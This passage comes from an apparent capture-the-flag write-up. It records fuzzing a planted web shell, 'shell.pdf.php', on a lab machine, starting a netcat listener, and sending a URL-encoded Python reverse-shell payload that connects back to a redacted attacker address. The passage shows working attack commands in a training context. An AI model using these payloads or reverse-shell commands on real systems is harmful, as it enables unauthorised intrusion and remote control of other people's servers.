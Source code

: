 {% highlight shell %}
$wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/common.txt --hh 18 http://10.10.212.207/cvs/shell.pdf.php?FUZZ=id

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.212.207/cvs/shell.pdf.php?FUZZ=id
Total requests: 4661

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                           
=====================================================================

000001100:   200        2 L      5 W        72 Ch       "cmd"                                                                                                             
^C /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:80: UserWarning:Finishing pending requests...

Total time: 0
Processed Requests: 1779
Filtered Requests: 1778
Requests/sec.: 0
{% endhighlight %}

### Initial Access
Now I have command execution, I first tried to get a shell. I started a netcat listener with the command ```nc -nvlp 4444```. 

Then from the browser, I entered: 

http://10.10.212.207/cvs/shell.pdf.php?cmd=python3%20-c%20%27import%20os,pty,socket;s=socket.socket();s.connect((%22{{REDACTED}}%22,4444));[os.dup2(s.fileno(),f)for%20f%20in(0,1,2)];pty.spawn(%22/bin/bash%22)%27

> A great resource for quickly creating reverse shell commands is https://www.revshells.com

I got a hit back but shortly afterwards the shell died with the message 'nope'. 

{% highlight shell %}
$nc -nvlp 4444
listening on [any] 4444 ...
connect to [{{REDACTED}}] from (UNKNOWN) [10.10.212.207] 41984
www-data@b2r:/var/www/html/cvs$ nope
{% endhighlight %}

The hacker was killing my connection (rude!). So instead of getting a shell I used the 'shell.pdf.php' script to enumerate the machine. To make this easier and used Burp and send the request to the Repeater tab.
